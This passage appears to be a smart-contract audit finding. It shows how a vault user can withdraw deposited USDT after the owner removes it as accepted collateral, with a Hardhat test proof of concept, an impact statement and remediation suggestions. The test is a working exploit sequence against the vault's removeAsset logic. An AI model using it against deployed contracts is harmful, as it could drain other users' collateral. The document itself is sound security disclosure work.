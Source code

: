 How this works:-
1. User `deposited` 1000 USDT(for example)
2. Minted 500 euros against it
3. Owner removed USDT as collateral
4. Vault got undercollateralized and gets liquidated
5. Now, user can use `removeAsset` function to withdraw that deposited USDT

//Here is the POC 
```solidity
it("Disallowing token leads loss of funds", async () => {
      // Using Tether as a collateral for testing
      const Tether = await (
        await ethers.getContractFactory("ERC20Mock")
      ).deploy("Tether", "USDT", 6);
      const USDTBytes = ethers.utils.formatBytes32String("USDT");
      const clUsdUsdPrice = 100000000;
      const ClUsdUsd = await (
        await ethers.getContractFactory("ChainlinkMock")
      ).deploy("USD / USD");
      await ClUsdUsd.setPrice(clUsdUsdPrice);
      await TokenManager.addAcceptedToken(Tether.address, ClUsdUsd.address);

      //Depositing 1000 USDT as collateral
      const value = 1000000000;
      await Tether.mint(Vault.address, value);

      // Minting 500 euros against Tether
      const mint = ethers.utils.parseEther("500");
      await Vault.connect(user).mint(user.address, mint);
      expect(await Vault.undercollateralised()).to.equal(false);

      // Removing Tether as a collateral
      await TokenManager.removeAcceptedToken(USDTBytes);
      expect(await Vault.undercollateralised()).to.equal(true);

      // Removing collateral
      await Vault.connect(user).removeAsset(
        Tether.address,
        value,
        user.address
      );
      expect(await Tether.balanceOf(user.address)).to.equal(value);
    });
```

## Impact
All the stakers will loss on collateral

## Tools Used
Manual Review

## Recommendations
some recommendations are like seize that removed token from vault, if it's undercollateralized the vault or prevent removal of that token


